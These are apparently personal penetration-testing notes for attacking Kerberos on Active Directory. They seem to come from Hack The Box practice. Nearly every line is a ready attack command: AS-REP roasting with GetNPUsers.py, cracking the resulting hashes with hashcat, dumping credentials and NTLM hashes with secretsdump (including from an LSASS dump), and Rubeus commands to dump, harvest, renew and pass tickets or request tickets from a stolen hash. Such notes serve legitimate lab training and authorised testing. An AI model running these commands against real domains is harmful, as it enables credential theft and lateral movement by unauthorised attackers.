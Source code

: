 Port 88


Have list of users, need to identify accounts that do not require Kerberos pre-authentication:
```
GetNPUsers.py -dc-ip 10.129.175.196 -request -usersfile users.txt htb.local/
```
crack hashes:
```
hashcat -m 18200 <hashes-file> /path/to/wordlist
```

have admin creds or foothold; to dump creds, including NTLM hashes, kerberos tickets, passwords:
```
secretsdump.py corp.local/admin:password@192.168.1.100
```

Obtained LSASS dump file and want to extract creds from it:
```
python secretsdump.py -lsass <LSASS-Dump-File>
```


Compromised a machine and want to extract Kerberos tickets (TGT/TGS) for lateral movement
transfer rubeus.exe to windows and run:
```
Rubeus.exe dump
```

Extracted Kerberos ticket and want to use it to access resources without password (pass-the-ticket):
```
Rubeus.exe ptt /ticket:<base64-ticket>
```

Have NTLM hash of user's pw and want to obtain kerberos ticket using the hash:
```
Rubeus.exe asktgt /user:<username> /rc4:<ntlm-hash> /domain:<domain> /dc:<domain-controller>
```
ex:
```
Rubeus.exe asktgt /user:jdoe /rc4:ab1234567890abcdef1234567890abcdef /domain:corp.local /dc:192.168.1.100
```

if rubeus dump shows a TGT with a renewable flag set, output example:
  [TGT]  ServiceName              :  krbtgt/EXAMPLE.COM
         PrincipalName            :  user@EXAMPLE.COM
         Realm                    :  EXAMPLE.COM
         StartTime                :  2/24/2024 1:22:40 AM
         EndTime                  :  2/24/2024 11:22:40 AM
         ==RenewTill==                :  3/2/2024 1:22:40 AM
         Flags                    :  ==renewable==, pre_authent
         SessionKeyType           :  aes256_cts_hmac_sha1
         Base64(ticket)           :  YIIEjAYGKwYBB...

can renew the ticket with:
```
Rubeus.exe renew /ticket:YIIEjAYGKwYBB...
```

can pass the ticket with:
```
Rubeus.exe ptt /ticket:YIIEjAYGKwYBB...
```

have system/admin access and want to extract kerberos/lsass info (similar to dump but more info):
```
Rubeus.exe harvest
```



